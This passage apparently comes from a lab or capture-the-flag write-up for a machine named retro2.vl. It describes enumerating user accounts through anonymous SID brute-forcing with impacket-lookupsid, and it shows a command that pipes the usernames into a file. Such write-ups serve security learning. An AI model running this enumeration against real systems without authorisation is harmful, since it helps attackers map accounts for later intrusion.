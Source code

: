 We ran a SID brute-force attack using **`lookupsid.py`** and successfully retrieved the usernames on the machine.

<img src="attachments/d77cd79834a29e439f1ebfe64bd4f4ed.png" />

We used the following command to save the output to a text file for later use:

```
impacket-lookupsid anonymous@retro2.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}' | tee usernames.txt
```
